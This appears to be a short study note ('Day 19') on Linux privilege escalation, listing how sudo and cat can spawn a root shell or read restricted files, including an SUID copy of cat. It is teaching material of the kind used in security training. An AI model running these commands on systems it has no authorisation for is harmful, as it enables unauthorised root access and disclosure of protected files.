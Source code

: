 
# ♦ Day 19
</br>
</br>

## ◙ ***Privillage Escalation with comman commands***
 </br>
 
# ♦ `Sudo` : 
   ⇨  If the binary is allowed to run as superuser by `sudo`, it does not drop the elevated privileges and may be used to access the file system, escalate or maintain privileged access.
</br>
#### Command:

      sudo sudo /bin/sh

   </br>
   </br>

### ♦ `cat` :  

   ⇨  Description: The `cat` command reads data from files and can be used to do privileged reads or disclose files outside a restricted file system. If it has the SUID bit set, it can escalate privileges.
</br>
#### Command: 

   • File Read :

    LFILE=file_to_read
    cat "$LFILE"

   • SUID :

    sudo install -m =xs $(which cat) .

    LFILE=file_to_read
    ./cat "$LFILE"

   • Sudo :

    LFILE=file_to_read
    sudo cat "$LFILE"
